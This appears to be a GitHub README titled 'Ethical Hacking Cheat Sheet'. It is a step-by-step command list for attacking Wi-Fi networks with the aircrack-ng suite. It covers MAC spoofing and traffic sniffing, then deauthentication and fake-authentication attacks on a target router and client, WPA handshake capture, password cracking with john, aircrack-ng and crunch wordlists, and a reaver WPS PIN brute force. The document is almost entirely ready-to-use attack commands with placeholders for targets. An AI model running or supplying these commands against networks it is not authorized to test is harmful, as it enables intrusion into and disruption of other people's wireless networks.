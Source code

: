 # Ethical Hacking Cheat Sheet

|Commands|
|--------------|
|[Network Manager Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-manager-commands)|
|[Network Adapter Testing Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-adapter-testing-commands)|
|[Changing MAC Address](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#changing-mac-address)|
|[Sniff Network](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#sniff-network)|
|[Capture Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#capture-data)|
|[Analyse Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#analyse-data)|
|[Associate with Router](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#associate-with-router)|
|[DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#de-authentication-attack)|
|[Fake-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#fake-authentication-attack)|
|[WPA Handshake Capture](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#wpa-handshake-capture)|
|[Password Cracking Using `John`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-john)|
|[Password Cracking using wordlist](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-wordlist)|
|[Create word list](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#create-word-list)|
|[Password Cracking Without Word list](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-without-word-list)|
---

# Network Manager commands

> ### Kill Network Manager
```bash
airmon-ng check kill
```

> ### Enable Network Manager

```bash
service NetworkManager start
```

> ### Restart Network Manager
```bash
systemctl restart NetworkManager
```

> ### Check Status of Network Manager
```bash
systemctl status NetworkManager
```
---

# Network Adapter Testing Commands

> ### Enable Monitor Mode
```bash
airmon-ng start wlan0
```

> ### Disable Monitor Mode
```bash
airmon-ng stop wlan0
```

> ### Packet Injection test
```bash
aireplay-ng --test wlan0
```

> ### Access Point Creation test

you can put any fake MAC Address like this `00:01:02:03:04:05`
```bash
airbase-ng -a 00:01:02:03:04:05 --essid "<AP_name>" -c {channel_no.} wlan0
```

---

# Changing MAC Address
```bash
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
# Sniff Network 

> ### Sniff Network around `2.4 GHz`
```bash
airodump-ng wlan0
```

> ### Sniff Network Both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band a wlan0
```

> ### Capture data both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band abg wlan0
```
---
# Capture Data
```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} --write (file_name_without_extension) wlan0
```
# Analyse Data
```bash
wireshark
```
---

# Associate with router
```bash
aireplay-ng --fakeauth 0 -a {router_MAC_add} -h {Your_NIC_MAC_add} waln1
```

# DE-Authentication Attack
```bash
aireplay-ng --deauth {no_of_deauth_packets} -a {router_MAC_add} -c {target_MAC_add} wlan0
```
if it`s fails then, target router on specfic channel

```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} wlan0
```

# Fake-Authentication Attack
```bash
aireplay-ng --fakeauth {delay} -a {router_MAC_add} -h {your_NIC_MAC} wlan0
```

# WPA Handshake Capture
```bash
airodump-ng --bssid {router_MAc_add} --channel {channel_no.} --write {file_name_without_extn} wlan0
```

# Password Cracking Using `John`

> ### `.cap` to `.hccap`
```bash
aircrack-ng {.cap} -J {extension_name_not_required}
```
> ### `.hccap` to `.txt`
```bash
hccap2john {.hccap} > {.txt}
```
> ### Crack Password
```bash
john {.txt}
```

---

# Password Cracking using `wordlist`
```bash
aircrack-ng {.cap} -w {Wordlist.txt}
```
---
# create word list
```sh
man crunch
crunch 6 8 {key length} abc12 {char used} -o test.txt
```
> ## Create word list using pattern
```sh
crunch {key_length Ex: 6 8} {char_used Ex: abc12} -o {.txt} -t {patter Ex: a@@@@b}
```

---
# Password Cracking `Without Word list`

> ## Scan WPS Enable Network Around us

```sh
wash --interface wlan0
```

>[!WARNING]\
>Current version of reaver have some bugs, you can use old version

> ## Brute force the pin attack
```sh
reaver --bssid {router_MAC_add} --channel {channel_no.} --interface wlan0 -vvv --no-associate 
```

# =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)

